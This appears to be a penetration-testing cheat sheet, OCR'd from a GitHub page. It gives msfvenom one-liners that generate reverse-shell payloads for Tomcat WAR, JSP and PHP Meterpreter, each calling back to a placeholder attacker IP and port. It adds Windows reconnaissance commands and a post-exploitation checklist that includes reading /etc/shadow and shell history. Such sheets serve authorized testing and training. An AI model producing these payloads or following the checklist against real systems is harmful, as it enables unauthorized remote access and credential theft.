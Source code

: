 ```
Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.

WAR - Tomcat Apache

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDRESS LPORT=YOUR-PORT -f war > shell.war
```

JSP Java Meterpreter Reverse TCP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDRESS LPORT=YOUR-PORT -f raw > shell.jsp
```

PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=YOUR-IP-ADDRESS LPORT=YOUR-PORT -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

* * *

## Windows Command Line

**To search for a file starting from current directory**

```
dir /b/s "*.conf*"
dir /b/s "*.txt*"
dir /b/s "*filename*"
```

**Check routing table**

```
route print
netstat -r
```

**Check Users**

```
net users
```

**List drives on the machine**

```
wmic logicaldisk get Caption,Description,providername
```

* * *

## Post exploitation

- [ ] Check user permissions
- [ ] Check home directories users
- [ ] Check (bash) history
- [ ] Check /etc/passwd
- [ ] Check /etc/shadow
- [ ] Check network interfaces
- [ ] Check running services
- [ ] Check open ports
- [ ] Check Operating System version
```